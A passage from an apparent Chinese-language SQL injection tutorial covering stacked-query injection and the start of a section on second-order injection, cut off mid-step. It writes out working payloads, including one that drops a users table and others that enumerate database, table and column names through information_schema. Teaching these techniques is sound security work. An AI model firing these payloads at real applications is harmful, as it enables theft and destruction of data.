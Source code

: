 ```sql
SELECT * FROM users WHERE id=1; DROP TABLE users;
```

 这种注入比`UNION`注入危害更大，因为攻击者可以执行任意写操作，甚至直接对数据库结构进行破坏。  

但是，并不是所有环境都支持堆叠查询：

+ **支持**：原生执行SQL的API（如`JDBC Statement.execute()`、`sqlite3_exec()`）。
+ **不支持**：使用`PreparedStatement`、`mysql_query()`这类一次只能执行一条语句的API。

### 攻击步骤
1.  判断是否支持多语句
+ 在参数里尝试拼接一个无害的第二条语句：

```sql
id=1'; SELECT 1--%20
```

    - 如果数据库报错“You have an error near …”，说明语句拼接被截断，可能不支持堆叠。
    - 如果能正常执行第二条查询（例如返回结果或日志出现`1`），说明支持堆叠。
2. 读写信息

获取当前数据库名：

```sql
id=1'; SELECT database()--%20
```

获取表名：

```sql
id=1'; SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='mydb'--%20
```

获取字段名：

```sql
id=1'; SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='mydb' AND TABLE_NAME='emails'--%20
```

## 二次注入攻击
### 原理
一次注入：攻击者提交的恶意输入，立即拼接进SQL并执行。

二次注入：攻击者的恶意输入第一次被当作普通数据存入数据库，看似无害；但在第二次被取出再拼接到另一条SQL里执行时，才触发注入。

特点：

+ 第一次插入：数据库里存的是“有陷阱的数据”
+ 第二次使用：开发者误以为数据“安全”，直接拼接执行，引发注入

### 攻击步骤
1. 找到可存储点

在注册、修改资料、留言等功能里，提交特制的输入，例如注册用户名：
